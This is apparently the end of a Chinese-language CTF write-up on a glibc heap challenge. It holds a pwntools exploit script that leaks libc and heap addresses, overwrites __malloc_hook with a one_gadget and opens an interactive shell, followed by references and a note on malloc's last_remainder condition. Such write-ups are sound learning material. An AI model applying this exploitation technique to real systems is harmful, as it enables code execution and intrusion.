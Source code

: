 ```python

show(0)
p.readuntil(": ")
p.read(0x20)
base=(u64(p.read(8))^0x13370800)-(0x00007fae63fa9b78-0x7fae63be5000)-(0x7f55e1876fe0-0x7f55e18a2000)
heap=u64(p.read(8))-0xf8
log.info(hex(base))
log.info(hex(heap))
#
gdb.attach(p,'')
libc=ELF("./libc-2.24.so")
libc.address=base
edit(0,0x88,p64(libc.sym['__malloc_hook'])+p64(0x100)+'\x00'*0x78)
one=0x3f35a+base
edit(2,0x14-0xc,p64(one))
#
add(0x100)
p.interactive()

# fill 0x13377331
```

# 参考&引用

```
[seebug]:https://paper.seebug.org/255/#5-last_remainder
[source]:https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#__libc_calloc
[veritas501]:https://veritas501.space/2018/04/11/Largebin%20%E5%AD%A6%E4%B9%A0/
[eternalsakura13]:http://eternalsakura13.com/2018/04/03/heapstorm2/
[keenan]:https://genowang.github.io/2019/04/08/%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%91-SwampCTF-Pwn/#Storm-note
```
# 一个可以不看的小问题.
练习的时候发现一个很有趣的问题.后来经过很长时间的diff终于找出了问题所在..原因还是源码看少了.之前这句话的理解还是比较不完整

..遍历 unsorted bin 中的 chunk, 如果请求的 chunk 是一个 small chunk, 且 unsorted bin 只有一个 chunk, `并且这个 chunk 在上次分配时被使用过(也就是 last_remainder)`, 并且 chunk 的大小大于 (分配的大小 + MINSIZE), 这种情况下就直接将该 chunk 进行切割, 分配结束...

其中有个条件是`并且这个 chunk 在上次分配时被使用过`
code::
```c
 if (in_smallbin_range (nb) &&
              bck == unsorted_chunks (av) &&
              victim == av->last_remainder &&
              (unsigned long) (size) > (unsigned long) (nb + MINSIZE))
```
也就是`victim == av->last_remainder`条件.
所以我们在构造`off_by_one&shrink`的时候要注意`last_remainder==aim unsorted bin`//可能我是地球上最后一个知道的😅
